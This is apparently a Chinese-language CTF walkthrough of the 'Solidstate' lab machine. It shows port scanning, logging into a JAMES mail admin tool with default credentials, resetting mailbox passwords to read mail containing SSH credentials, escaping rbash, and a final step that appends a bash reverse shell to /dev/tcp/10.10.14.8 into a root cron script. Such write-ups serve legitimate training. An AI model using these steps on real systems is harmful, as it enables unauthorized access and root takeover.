# Solidstate

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.51
```



80端口，扫了目录没有什么发现，根据端口开放情况，可能是针对邮件服务器的渗透



4555

```bash
JAMES Remote Administration Tool 2.3.2
```



james默认口令`root/root`



修改邮件用户密码

```bash
#查询用户列表
listusers

#修改用户密码
setpassowrd <user> <password>
```



登录` mindy`&#x20;

```bash
telnet 10.10.10.51 110

USER mindy

PASS 123456

#查看第二封邮件

retr 2
```

第二封邮件发现了管理员`mailadmin`发的ssh账号密码



```bash
username: mindy
pass: P@55W0rd1!2@
```

登录ssh



提权

`mindy`的shell是`rbash`，很多命令无法执行，将rbash提升到bash，重新登录

```bash
ssh mindy@10.10.10.51 -t bash
```



下载`pspy32`到靶机执行



监控发现每3分钟 `root`执行一次`python /opt/tmp.py`



直接修改`tmp.py` 内容为反弹shell

```bash
echo "os.system('bash -c "bash -i >& /dev/tcp/10.10.14.8/2333 0>&1"')">>/opt/tmp.py
```


